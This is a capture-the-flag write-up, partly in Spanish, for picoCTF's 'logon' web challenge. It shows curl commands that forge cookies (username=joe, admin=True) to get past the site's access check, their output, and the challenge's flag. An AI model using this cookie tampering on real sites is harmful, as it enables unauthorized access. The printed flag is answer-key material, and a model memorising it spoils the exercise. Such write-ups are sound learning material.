 # logon
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/44573/` ([link](https://jupiter.challenges.picoctf.org/problem/44573/)) or http://jupiter.challenges.picoctf.org:44573
Hmm it doesn't seem to check anyone's password, except for Joe's?

# Solución
Para este ejercicio lo que tuve que hacer fue checar las conexiones y las peticiones que realizaba el sitio, para después modificar las cookies del sitio, modificando el admin con True y de esta manera encontré la bandera, use la terminal de Kali linux.
```
┌──(kali㉿kali)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/44573/flag -H "Cookie: username=joe; password=joe admin=True"            
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/">/</a>.  If not click the link.                                                                                                                                                                      
┌──(kali㉿kali)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/44573/flag -H "Cookie: username=joe; password=joe admin=True" | grep pico
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   209  100   209    0     0     24      0  0:00:08  0:00:08 --:--:--    52
                                                                                                                                                                      
┌──(kali㉿kali)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/44573/flag -H "Cookie: username=joe; password=joe; admin=True" | grep pico
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1312  100  1312    0     0    150      0  0:00:08  0:00:08 --:--:--   287
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_0c98aacc}</code></p>
```